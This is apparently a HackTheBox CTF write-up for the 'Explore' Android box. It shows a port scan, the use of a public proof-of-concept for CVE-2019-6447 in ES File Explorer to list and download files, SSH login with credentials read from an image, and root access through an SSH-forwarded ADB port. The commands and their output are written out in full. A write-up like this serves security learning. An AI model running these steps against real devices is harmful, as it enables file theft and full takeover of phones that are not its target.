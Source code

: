 ```yaml
---
layout: post
title: HTB Explore Writeup  
subtitle: Easy Box
cover-img: /assets/img/explore.png.png
thumbnail-img: /assets/img/explore.png.png
tags: [HTB]
---
```


# Notes
IP:10.10.10.247

## Port Scan
```
PORT      STATE    SERVICE                                                                                            
2222/tcp  open     EtherNetIP-1                                                                                       
5555/tcp  filtered freeciv                                                                                            
39773/tcp open     unknown                                                                                            
42135/tcp open     unknown                                                                                            
59777/tcp open     unknown 

```
## Port 2222
SSH-2.0-SSH Server - Banana Studio 

## Port 5555
This port is being used by Android Debug Bridge (adb) and is filtered

## Port 59777
A quick google search showed that port 59777 is used by ES File Explorer. ES File Explorer is a file manager/explorer for android devices. It looks like there is a CVE for ES File Explorer CVE:2019-6447, I used a poc script I found on github https://github.com/fs0c131y/ESFileExplorerOpenPortVuln. This script lets me list and download files off the device.

There was a great write up of this bug https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566 

Using the tool I was able to find a file called "creds.jpg"

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py --cmd listPics --ip 10.10.10.247 
[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

```

I downloaded it

```
┌──(root💀kali)-[~/htb/explore]
└─# python3 poc.py -g /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247 
[*] Getting file: /storage/emulated/0/DCIM/creds.jpg
        from: 10.10.10.247
[*] Server responded with: 200
[*] Writing to file: creds.jpg
                               
```

It was a picture of some credentials `kristi:Kr1sT!5h@Rp3xPl0r3!`

## User Shell

I was able to ssh into it by using the credentials found 

```
┌──(root💀kali)-[~/htb]
└─# ssh -p 2222 kristi@10.10.10.247
Password authentication
Password: 
```

Looking inside `/sdcard` I found the user flag

## Root
Back when I did my nmap scan port 5555 was running adb. Now that we have a valid ssh session we can port forward back to kali and access adb

I found the commands for abd here https://adbshell.com/

Port forward
`ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555`

Connect to abd
`adb connect 127.0.0.1:5555`

We can restart the adb service as root
`adb root`

From there adb is running with high privs so we can drop into a shell and su to root
```
──(root💀kali)-[~/htb]
└─# adb shell                                                                                                                                                                                                                            1 ⨯
x86_64:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
x86_64:/ $ su
:/ # id
uid=0(root) gid=0(root) groups=0(root) context=u:r:su:s0

```
